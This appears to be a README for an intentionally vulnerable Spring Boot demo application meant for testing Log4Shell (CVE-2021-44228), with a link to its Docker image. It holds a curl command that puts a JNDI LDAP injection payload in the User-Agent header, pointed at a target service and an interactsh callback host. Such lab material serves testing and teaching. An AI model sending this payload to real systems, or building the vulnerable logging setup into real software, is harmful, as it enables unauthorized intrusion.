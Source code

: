 # Simple Spring Boot application which is vulnerable to Log4Shell (CVE-2021-44228)
* Changed default logging framework from logback to log4j2

Application logs 'User-Agent' header, so one can test vulnerability with curl and e.g. [interactsh-service](https://github.com/projectdiscovery/interactsh):
```
curl -A '${jndi:ldap://interactsh-url/a}' http://target-service/
```
One should see DNS interaction at [app.interactsh.com](https://app.interactsh.com/).   

## Docker hub
Link to [Docker hub](https://hub.docker.com/r/korteke/log4shell-demo)
